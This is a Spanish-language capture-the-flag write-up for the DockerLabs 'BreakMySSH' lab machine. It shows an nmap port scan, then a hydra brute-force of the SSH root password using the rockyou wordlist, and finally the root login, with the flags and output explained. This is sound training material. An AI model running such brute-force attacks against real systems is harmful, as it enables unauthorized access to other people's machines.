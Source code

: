 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterisiticas muestran.

```
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputsacn.txt
```
"-sC" Muestra la version del servicio del pureto abierto.
<br>
"-sV" Ejecuta scripts propios de nmap que entre otras cosas descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección ip de la máquina víctima
<br>
"-oN" Sirve para que te copie el rsultado del escaneo en el fichero que tu le indiques (no hay que crearlo antes, lo crea solo).

```                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 11:09 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds

```
Observamos el puerto 22, que es del servicio ssh, abierto. Al ser esta una maquina victima muy sencilla, en el siguiente paso podemos permitirnos ya intentar ser "root", lo haremos de la siguiente forma.
<br><br><br>
Hacemos un ataque de fuerza bruta al servicio ssh con la herramienta hydra, donde pondremos la wordlist "rockyou.txt" que incluye aproximadamente un millon de contraseñas comunes.
```sh
└─$ hydra -l root -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l root" Indica que nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-14 11:46:06
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 55.00 tries/min, 55 tries in 00:01h, 14344344 to do in 4346:47h, 5 active
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
Vemos que para el usuario "root" ha encontrado la contraseña "estrella", probamos a hacer una conexion con ssh e introducimos la contraseña "estrella"
```
└─$ ssh root@172.17.0.2 
```
```
root@e1c6130e3b9a:~# whoami
root
```
<br>


Somos root, estamos dentro. Gracias.
                                                
